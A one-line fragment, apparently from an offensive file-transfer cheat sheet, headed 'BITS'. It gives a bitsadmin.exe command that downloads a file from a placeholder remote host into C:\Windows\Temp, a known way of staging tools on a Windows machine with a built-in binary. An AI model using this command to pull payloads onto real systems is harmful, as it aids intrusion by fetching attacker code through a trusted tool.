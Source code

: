 # BITS

    bitsadmin.exe /transfer /Download /priority Foreground http://<IP>/<File> c:\Windows\Temp\<File>
